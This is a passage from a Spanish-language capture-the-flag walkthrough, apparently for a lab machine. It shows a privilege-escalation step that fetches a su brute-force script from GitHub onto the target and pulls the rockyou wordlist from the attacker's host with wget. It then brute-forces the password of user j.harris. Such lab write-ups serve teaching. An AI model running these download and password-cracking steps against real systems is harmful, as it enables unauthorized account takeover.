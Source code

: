 Tal y como vemos, ahora somos el usuario j.harris. Si ahora vamos al directorio personal del usuario j.harris, ahora si tendremos permiso obviamente para acceder a él y podremos hacerle un cat al archivo user.txt 

![Imagen021](21.jpeg)

Intentamos varias formas de elevar nuestros privilegios, mediante binarios SUID, tareas cron, etc. pero no encontramos nada que nos lo permita. Se nos pasa por alto, comprobar los permisos de sudo para este usuario, pero no podemos hacerlo porque no tenemos las credenciales del usuario j.harris. Así que lo que vamos a hacer es conseguir su contraseña. Para ello, podemos utilizar varios scripts disponibles en Github que nos permiten hacer esto. Vamos a descargar en el equipo objetivo un script creado por el Pingüino de Mario y le damos permisos de ejecución

```bash
wget https://raw.githubusercontent.com/Maalfer/Sudo_BruteForce/refs/heads/main/Linux-Su-Force.sh
chmod +x Linux-Su-Force.sh
```

Ahora tenemos que pasar al equipo objetivo el diccionario a utilizar. En nuestro caso emplearemos el rockyou.txt. Al descargarlo del repositorio de SectList con wget, no podremos descomprimirlo en el equipo objetivo ya que no tiene las herramientas necesarias. Así que nos lo transferimos al equipo víctima desde nuestro equipo de atacantes 

```bash
python3 -m http.server 80
```

```bash
wget http://[IPAtacante]:80/rockyou.txt
```

Ahora simplemente lo ejecutamos 

```bash
./Linux-Su-Force.sh j.harris rockyou.txt
```
